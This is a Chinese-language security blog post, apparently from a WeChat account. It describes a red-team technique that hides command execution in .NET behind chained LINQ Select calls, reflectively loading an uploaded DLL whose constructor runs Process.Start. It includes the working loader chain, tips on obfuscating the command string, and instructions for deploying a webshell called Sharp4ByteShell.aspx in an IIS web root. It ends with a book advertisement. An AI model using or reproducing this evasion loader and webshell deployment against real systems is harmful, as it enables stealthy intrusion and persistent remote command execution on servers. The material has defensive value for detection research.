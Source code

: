 #  .NET 介绍一种隐蔽的命令执行方式，通过 LINQ 投影执行动态加载  
原创 专攻.NET安全的  dotNet安全矩阵   2025-07-02 01:05  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队渗透过程中，传统的命令执行方式，比如直接调用 cmd.exe  
 或通过 Webshell 发起命令往往容易被安全产品检测到。为此，红队需要不断探索更隐蔽、更绕过主流安全机制的方法。而本文要介绍的 .NET LINQ 投影 + 反射加载 DLL 执行  
 技术，正是一种融合了语言特性与框架机制的创新利用方式。  
  
不仅规避了传统命令行行为的检测，同时以数据查询逻辑的形式隐藏真实意图，使其在安全审计、日志分析与行为检测中具备极强的对抗性。  
  
**01. 技术背景介绍**  
  
  
  
LINQ，全称 Language Integrated Query，语言集成查询，是微软从 .NET 3.5 开始引入的查询语法扩展，它允许开发者直接在 C# 或 VB.NET 中对集合、数组、数据库、XML 等进行类似 SQL 的查询操作。  
## 1.1 匿名类型  
  
LINQ 中常见的一项语法是使用匿名类型进行数据投影。  
匿名类型在代码中无须定义类结构，变量类型由 var  
 自动推断，非常适合用于 LINQ 查询结果的快速封装，具体参考如下代码  
  
```
var student =new{ Name ="Mary Jones", Age =19, Major ="History"};Console.WriteLine("{0}, Age {1}, Major: {2}", student.Name, student.Age, student.Major);
```  
  
  
由于匿名类型没有名字，必须使用  
var  
关键字作为变量类型，  
students  
变量是一个具有两个  
string  
属性和一个  
int  
属性的匿名类型。运行时如图  
所示  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9BEcPsrz6E5FeG5sxYTggxfGsRLeIzzgictWTdvx01k6Ntg3laLPP69DmxVI3CMBo8tic9ZYnOzvFA/640?wx_fmt=png&from=appmsg "")  
  
  
这  
种机制为我们动态生成数据结构、传递参数、包装载荷提供了名正言顺的语法基础。  
而在攻击层面，我们可以进一步利用它将执行逻辑，比如反射创建实例、动态加载 DLL“伪装”成普通的查询操作，从而绕过静态检测。  
## 1.2 LINQ查询  
  
除了对象初始化语句的赋值形式，匿名类型的对象初始化语句还有两种形式：简单标识符和成员访问表达式。这两种形式叫做投影初始化语句，具体代码如下所示。  
  
```
classOther{staticpublicstring Name ="Mary Jones";}internalclassProgram{staticvoidMain(string[] args){string Major ="History";var student =new{ Age =19, Other.Name, Major };          						Console.WriteLine("{0}, Age {1}, Major: {2}", student.Name, student.Age, 				student.Major);}}
```  
  
  
上述代码中  
 var student = new { Age = 19, Other.Name, Major };  
这个代码片段包含了  
Age  
赋值形式，  
 Other.Name   
成员访问，  
Major   
标识符。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibRpSD0y6j0lXy6oesj1rUNbN4M7dkqw8ggw3G5w05Cib58eTkicoQBQWqWN9cCaf39UUNZgnC4icybA/640?wx_fmt=jpeg&from=appmsg "")  
  
查询语法是声明式的，也就是说，查询描述的  
LINQ  
语句是你想返回的东西，但并没有指明如何执行这个查询，看上去和  
SQL  
语句很相似，使用查询表达式形式书写。如下代码所示。  
  
```
int[] numbers ={2,5,28,31,17,16,42};var numsQuery =from n in numbers	wheren<20select n;foreach(var x in numsQuery){   Console.Write("{0}, ", x);}
```  
  
  
在  
LINQPad  
运行后输出  
  
“  
2,5,17,16  
”  
  
这四个小于  
20  
的数字，如图  
所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1Y9BEcPsrz6E5FeG5sxYTggxLyw4icIHrYBwsNx6ibqK3HiaL5hb8fnwTvHH5LP8jCSDRQmy2AX1ahlzw/640?wx_fmt=png&from=appmsg "")  
  
**02. 红队实战应用**  
  
  
  
设想一个场景，攻击者成功上传了一个名为 net-calc.dll 的 .NET DLL，里面定义了一个触发 calc.exe 的类：  
  
```
internalclassE{publicE(){        Process.Start("calc");}}
```  
  
  
此时，若攻击者能够通过反射加载该 DLL 并执行该构造函数，即可在目标主机上实现远程命令执行，如下图所示。  
  
## 2.1 实战流程  
  
LINQ 默认采用 **延迟执行**  
，也就是说，查询不会立即执行，直到你真正需要结果的时候，例如使用 .ToList()  
、.Count()  
、.First()  
 等方法。具体参考代码如下所示。  
  
```
byte[] assemblyBytes = File.ReadAllBytes(Path.Combine(    Path.GetDirectoryName(Assembly.GetExecutingAssembly().Location),"net-calc.dll"));List<byte[]> data =newList<byte[]>();data.Add(assemblyBytes);var e1 = data.Select(Assembly.Load);var e2 = e1.SelectMany(map_type);var e3 = e2.Select(Activator.CreateInstance).ToList();
```  
  
  
这意味着，只看到了一连串的 Select  
 操作，并不会立  
即意识到这些操作是为了构造命令执行链，直到最后一步才执行。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1YibRpSD0y6j0lXy6oesj1rUNUSEPjRgX2Hib9sUJrpyMOIHNNKye7BLvOibfzSO3tJPVBX9Picrz3V8yg/640?wx_fmt=jpeg&from=appmsg "")  
  
这种方式通过链式的 Select -> SelectMany -> CreateInstance  
 操作，隐藏了对 Process  
 类的直接引用，大多数规则引擎不会针对这种投影模式建立规则。此外，字符串“calc”可以事先通过混淆、Base64 编码、或从其他位置动态获取，使得 payload 更难分析。  
## 2.2 实战应用  
  
这正是 Sharp4ByteShell.aspx  
 诞生的背景 —— 一款不依赖 cmd.exe  
 的纯 .NET编写基于 LINQ 投影机制支持命令交互式操作的 **高级 WebShell**  
。  
  
将 Sharp4ByteShell.aspx  
 上传至目标服务器的 IIS Web 根目录或任意子目录中。例如  
  
```
C:\inetpub\wwwroot\Sharp4ByteShell.aspx
```  
  
  
确保目标环境支持 .NET Framework 4.0 或以上，并启用了 .NET 解析模块。接着，  
使用浏览器打开 /  
Sharp4ByteShell.aspx，如下图所示。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YibwQWviblia55yGoiaJKoYCD2gx7H8KrRUsP4yZ7ClRH2aI6sS2v7h9N42CoyeqZsFxSxmDg7UgxdVqQ/640?wx_fmt=png&from=appmsg&watermark=1&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
加载后会显示一个输入框和执行按钮，界面简洁，无任何第三方 UI 库依赖。随后，在输入框中输入任意 Windows 命令。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NO8Q9ApS1Yib9XdgjGVlS3nc0gIm7PFydvd4H4Bvib7yUrWXf9BVK3h85ubY0wFqOGwC4xMxFobqndxv4UWnibpCA/640?wx_fmt=jpeg&from=appmsg&watermark=1&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
**03. 小结**  
  
  
  
综上，LINQ 是 .NET 中为开发者提供的强大查询语言扩展，但正因为其灵活的链式查询与延迟执行机制，为红队提供了一个极具隐蔽性的攻击媒介。本文介绍的 LINQ + Assembly.Load + Activator.CreateInstance  
 组合方式，可以绕过常见的静态检测规则，实现无命令行行为、无文件落地的命令执行，尤其适用于高对抗场景中的命令触发、权限维持或横向利用。  
  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**自《.NET安全攻防指南》上线以来，许多读者已抢先下单成功购入并收到了书籍，反响热烈，好评如潮！**  
  
**感谢大家的支持，我们也将持续为大家带来更多优质的.NET安全研究成果！原价258元，现限量优惠，京东自营店全套仅售141元，数量有限！点击京东链接：https://item.jd.com/10140917044329.html 或者打开手机京东APP即可下单购买。**  
  
  
  
